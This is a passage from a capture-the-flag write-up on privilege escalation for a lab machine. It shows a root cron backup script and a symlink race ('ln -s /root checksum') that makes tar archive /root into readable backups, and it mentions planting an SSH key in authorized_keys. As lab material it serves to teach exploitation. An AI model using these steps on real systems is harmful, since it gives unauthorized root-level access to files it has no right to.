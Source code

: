 ## Privilege Escalation

### Symlink Exploit

We can echo our public key into the `~/.ssh/authorized_keys` folder, then run `chmod 600 authorized_keys` and `chmod 700 .ssh` to upgrade our shell and SSH in as the user.

I ran a `pspy64` on the machine tos ee if there were any exploitable cron jobs running. Here are a few:

```
2023/03/07 16:45:01 CMD: UID=0    PID=3461   | /bin/bash /usr/bin/backup.sh 
2023/03/07 16:45:01 CMD: UID=0    PID=3464   | /usr/bin/tar -cvf /opt/backups/967155677.tar /var/www/app/                                                                                 
2023/03/07 16:45:01 CMD: UID=0    PID=3466   | /bin/bash /usr/bin/backup.sh 
2023/03/07 16:45:01 CMD: UID=0    PID=3465   | sha1sum /opt/backups/967155677.tar 
2023/03/07 16:45:01 CMD: UID=0    PID=3467   | sleep 5
```

So there's a backup script being run by root. Here's the `backup.sh` script being used:

```bash
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

The weird part about this script is the `/opt/backups/checksum` file and the sleep 5 in between, almost as if it's to give us time to execute something. Upon checking my permissions, it seems that I am able to create files within the `/opt/backups` folder.&#x20;

One possible exploit is to replace the file with a symlink to another file. In this machine's case, we can replace the `checksum` file with a symlink to the `/root` folder.

We just need to create a bash loop to wait for this file to pop up and execute some arbitrary commands. I just did `rm -f checksum; ln -s /root checksum` a bunch of times until it worked. When viewing the `/var/backups/web_backups` directory, we wouuld find one .tar file larger than the rest:

```
tom@epsilon:/var/backups/web_backups$ ls -la
total 80428
drwxr-xr-x 2 root root     4096 Mar  7 16:57 .
drwxr-xr-x 3 root root     4096 Mar  7 15:57 ..
-rw-r--r-- 1 root root  1003520 Mar  7 16:55 275431893.tar
-rw-r--r-- 1 root root  1003520 Mar  7 16:56 304784060.tar
-rw-r--r-- 1 root root 80343040 Mar  7 16:57 334180138.tar
```
